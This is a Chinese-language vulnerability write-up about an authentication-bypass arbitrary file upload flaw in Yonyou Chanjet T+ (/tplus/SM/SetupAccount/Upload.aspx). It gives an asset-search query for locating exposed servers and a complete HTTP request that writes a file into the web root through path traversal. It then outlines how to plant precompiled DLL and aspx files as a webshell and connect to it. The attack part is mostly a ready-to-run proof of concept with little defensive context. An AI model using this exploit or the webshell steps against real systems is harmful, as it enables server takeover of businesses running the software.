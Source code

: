 # 用友 畅捷通T+ Upload.aspx 任意文件上传漏洞

## 漏洞描述

用友 畅捷通T+ Upload.aspx接口存在任意文件上传漏洞，攻击者通过 preload 参数绕过身份验证进行文件上传，控制服务器

## 漏洞影响

```
用友 畅捷通T+
```

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![1](./images/202209131041324.png)

存在漏洞的接口为`/tplus/SM/SetupAccount/Upload.aspx`, 对应文件 `App_Web_upload.aspx.9475d17f.dll`

![2](./images/202209131041333.png)

上传文件类型验证不完善，可上传任意文件到服务器中的任意位置，验证POC

```
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 261
User-Agent: Mozilla/5.0 (iPod; U; CPU iPhone OS 3_0 like Mac OS X; ko-KR) AppleWebKit/535.16.4 (KHTML, like Gecko) Version/3.0.5 Mobile/8B117 Safari/6535.16.4
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVXR9biLu
Connection: close

------WebKitFormBoundaryVXR9biLu
Content-Disposition: form-data; name="File1";filename="../../../../../../../Program Files (x86)/Chanjet/TPlusStd/WebSite/1.txt"
Content-Type: image/jpeg

1
------WebKitFormBoundaryVXR9biLu--
```

由于应用为预编译的，直接上传的 `aspx木马`无法直接利用，需要通过上传 `dll 与 compiled `文件后利用Webshell

![3](./images/202209131041137.png)

将 `dll 与 compiled` 文件上传至 Web应用的 bin目录上，aspx上传至 Web根目录下

![6](./images/202209131042534.png)

![4](./images/202209131042543.png)

![5](./images/202209131042554.png)

再访问写入的Webshell进行连接

```
/tplus/shell.aspx?preload=1	
```